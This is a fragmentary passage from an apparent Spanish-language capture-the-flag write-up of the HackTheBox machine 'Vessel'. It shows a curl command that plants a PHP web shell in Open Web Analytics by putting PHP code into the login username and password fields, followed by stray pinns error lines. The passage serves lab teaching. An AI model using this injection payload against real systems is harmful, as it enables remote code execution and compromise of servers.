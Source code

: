 ![Logging](/assets/writeups/vessel/8.png)

Ahora solamente tenemos que hacer un intento de autenticación con algún código PHP de nombre de usuario, al hacerlo el sitio interpretará eso como código:

{% highlight bash %}
❯ curl -v -d "owa_user_id=<%3fphp+echo+system(\$_GET['cmd'])%3b+%3f>&owa_password=<%3fphp+echo+system(\$_GET['cmd'])%3b+%3f>&owa_action=base.login" 'http://openwebanalytics.vessel.htb/index.php?owa_do=base.loginForm'
{% endhighlight %}

![Pwned](/assets/writeups/vessel/9.png)


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:w]: Failed to create ns file: No such file or directory